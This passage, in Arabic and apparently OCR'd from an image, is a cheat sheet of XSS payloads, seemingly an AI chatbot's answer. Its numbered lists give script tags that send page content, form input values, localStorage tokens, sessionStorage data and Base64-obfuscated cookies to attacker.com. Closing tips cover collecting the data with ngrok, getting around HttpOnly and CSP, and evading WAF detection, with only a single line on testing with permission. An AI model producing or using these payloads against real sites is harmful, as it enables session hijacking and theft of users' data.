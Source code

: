 2. استخراج محتوى DOM:
- <script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.body.innerHTML)</script>: يرسل محتوى الصفحة بالكامل.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: document.getElementById('username').innerText})</script>: يرسل نص عنصر معين.
- <script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.querySelector('.email').innerText)</script>: يرسل نص عنصر بـ CSS selector.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(Array.from(document.getElementsByTagName('input')).map(i => i.value))})</script>: يرسل قيم حقول الإدخال.
- <script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.title)</script>: يرسل عنوان الصفحة.

3. استخراج بيانات التخزين:
- <script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>: يرسل رمز الجلسة من localStorage.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(sessionStorage)})</script>: يرسل جميع بيانات sessionStorage.
- <script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('userData'))</script>: يرسل بيانات مستخدم من localStorage.

4. استخراج بيانات السياق:
- <script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.domain)</script>: يرسل نطاق الصفحة.
- <script>new Image().src='http://attacker.com/log?l='+encodeURIComponent(window.location.href)</script>: يرسل عنوان URL الحالي.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: navigator.userAgent})</script>: يرسل معلومات المتصفح.

5. حقن مع التعتيم:
- <script>new Image().src='http://attacker.com/log?c='+btoa(document.cookie)</script>: يرسل ملفات تعريف الارتباط مشفرة بـ Base64.
- <script>eval(atob('bmV3IEltYWdlKCkuc3JjPSdodHRwOi8vYXR0YWNrZXIuY29tL2xvZz9jPScrZG9jdW1lbnQuY29va2ll'))</script>: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
- <script>new Image().src='http://attacker.com/log?c='+(document['cookie'].split('').reverse().join(''))</script>: يعكس ملفات تعريف الارتباط قبل الإرسال.



---

**نصائح إضافية**:
- **إعداد الخادم**: استخدم خادمًا بسيطًا (مثل Python `http.server`) أو خدمات مثل `ngrok` لتسجيل البيانات بسهولة.
- **تجنب القيود**: تحقق من وجود `HttpOnly` لملفات تعريف الارتباط أو CSP لتعديل الحقن (مثل استخدام WebSocket بدلاً من HTTP).
- **التعتيم**: استخدم تشفير Base64، تقسيم الشيفرة، أو تقنيات التعتيم لتجنب الكشف بواسطة WAF أو أنظمة الأمان.
- **اختبار النطاق**: ابدأ بحقن تؤكد النطاق (مثل إرسال `document.domain`) لفهم سياق التنفيذ.
- **الأدوات**: استخدم Burp Suite لمراقبة الطلبات الصادرة وأدوات المطورين (F12) لفحص DOM والشبكة.
- **السلامة**: اختبر فقط بإذن صريح (مثل برامج مكافآت الأخطاء) وتجنب إلحاق الضرر.

إذا كنت تريد شرح خطوة أخرى بنفس الأسلوب (مثل "Stored XSS Payloads" أو "Bypassing XSS Filters")، أو التركيز على سياق معين (مثل استخراج بيانات من تطبيقات SPA)، أخبرني وسأقدم ردًا مخصصًا!